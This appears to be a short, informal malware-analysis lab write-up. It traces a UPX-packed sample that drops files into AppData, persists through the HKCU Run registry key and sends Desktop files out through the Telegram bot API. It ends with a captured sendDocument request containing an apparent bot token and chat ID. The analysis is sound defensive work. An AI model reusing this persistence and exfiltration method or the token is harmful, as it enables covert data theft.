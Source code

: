 At the company, our network team noticed a big increase in network activity on one of our computers in the last few days. After looking into it, we found out that an employee had downloaded untrusted software, but they weren't sure what it was doing. We need you to investigate carefully and find out what it does.


1-malware packer used here 

with DIE we find it was upx

2-using procomon and monitroing file changes we find the malware write 
C:\Users\Administrator\AppData\Roaming\Dropper

3-same using procmon with reg and famous prestiee keys used for it 
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
4- dir used to exfiled 
C:\Users\Administrator\Desktop

5-using procmon and wireshark we get an api (we can use other tools for dumping bue we dont have acess to hem in this lab )
using the ip we find that 

api.telegram.org


6.a smart way to get the exfiled data with telegram bots but the uri is only sent after connection is sent and tls so we can't get it with wireshark

using the C:/windows/system32/drivers/etc/hosts

with api.telegram.org and then setuping python -m http.server 80 we can get the request 

"GET /bot6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo/sendDocument?chat_id=7389421